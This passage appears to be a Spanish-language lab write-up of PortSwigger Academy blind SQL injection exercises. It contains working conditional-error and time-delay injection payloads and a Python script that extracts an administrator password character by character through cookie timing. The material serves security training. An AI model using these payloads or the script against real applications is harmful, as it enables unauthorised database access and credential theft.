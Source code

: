 Ahora probamos si tiene la tabla users como nos pide el ejercicio
  
```sql
42bE1LpD9wjQKpT9' and (SELECT case when (1=0) then to_char(1/0) else 'a' end from users where rownum = 1)='a
```
  
Luego verificamos la longitud de la contraseña del administrador
  
```sql
42bE1LpD9wjQKpT9' and (SELECT case when (length(password)=20) then to_char(1/0) else 'a' end from users where username='administrator')='a
```
  
lo demás será iterar hasta encontrar el resultado correcto en cada letra de `password`
  
```sql
42bE1LpD9wjQKpT9' and (SELECT case when (substr(password,1,1)='e') then to_char(1/0) else 'a' end from users where username='administrator')='a
```
  
l3w4nombeg0v2nrs90mv
  
##  Exploiting blind SQL injection by triggering time delays
  
  
###  Lab13: Blind SQL injection with time delays
  
  
Cambiar la cookie a:
  
```sql
QN8d4azscNQM5K9F'|| pg_sleep(10) --
```
  
###  Lab 14: Blind SQL injection with time delays and information retrieval
  
  
```python
from pwn import log
import requests
abc = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = "https://acbc1f811f8fd8af802b7a9800bc00d8.web-security-academy.net/"
  
s = requests.Session()
password = ""
p1 = log.progress("Password")
p2 = log.progress("Trying")
for p in range(20):
    for a in abc:
        r = s.get(url, cookies={"TrackingId":"TIM9NdKmwTUJUYxT'%3B SELECT CASE WHEN ('"+a+"'=SUBSTRING(password,"+str(p+1)+",1)) THEN pg_sleep(3) ELSE pg_sleep(0) END from users where username='administrator'--", "session":"0iw1Ot3SXZodtYvilWtYeuySiejt9iW6"})
        p2.status("pos: "+ str(p+1)+ " letter: " + str(a)+" time: "+str(r.elapsed.total_seconds()))
        if r.elapsed.total_seconds() > 3 :
            password += a
            break
    p1.status(password)    
p1.success(password)
```
  